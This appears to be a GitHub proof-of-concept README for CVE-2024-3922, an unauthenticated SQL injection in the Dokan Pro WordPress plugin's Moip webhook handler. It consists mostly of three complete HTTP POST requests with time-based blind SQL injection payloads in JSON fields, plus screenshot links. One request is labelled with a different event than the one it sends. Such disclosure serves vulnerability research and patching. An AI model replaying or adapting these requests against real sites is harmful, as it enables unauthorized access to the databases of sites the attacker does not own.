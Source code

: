 # CVE-2024-3922-Poc
Dokan Pro &lt;= 3.10.3 - Unauthenticated SQL Injection

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/dokan-pro/dokan-pro-3103-unauthenticated-sql-injection

Require install plugin
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/6d16fb7f-69f1-4446-9ded-4f08a477f642)


File: wp-content/plugins/dokan-pro/modules/moip/module.php 
Method: handle_moip_webhook
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/229d231c-c4a0-469c-afb0-7244ed024079)
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/6bc5a880-760e-4b8a-843c-1590021fd0a4)

Poc
Event: invoice.created
```
POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: <Host>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.110.184:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US;
Connection: close
Content-Length: 135
Content-Type: application/json;charset=UTF-8

{"env":"1","event":"invoice.created","resource":{"subscription_code":"11111' and (select 1 from (select sleep( if(1=1,5,0) ))x )='"}}
```
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/8756762e-bca6-464c-90ce-e3ba1399bcd6)

Event: subscription.expired
```
POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: <Host>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.110.184:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US;
Connection: close
Content-Length: 129
Content-Type: application/json;charset=UTF-8

{"env":"1","event":"subscription.expired","resource":{"code":"11111' and (select 1 from (select sleep( if(1=1,5,0) ))x )='"}}
```
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/4c921168-0399-42c6-b736-d06d57ccceb4)

Event: subscription.expired
```
POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: <Host>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.110.184:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US;
Connection: close
Content-Length: 129
Content-Type: application/json;charset=UTF-8

{"env":"1","event":"subscription.updated","resource":{"status":"ACTIVE","code":"11111' and (select 1 from (select sleep( if(1=1,5,0) ))x )='"}}
```
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/90ddbaa4-16d5-4288-98ad-23dc84a053e9)
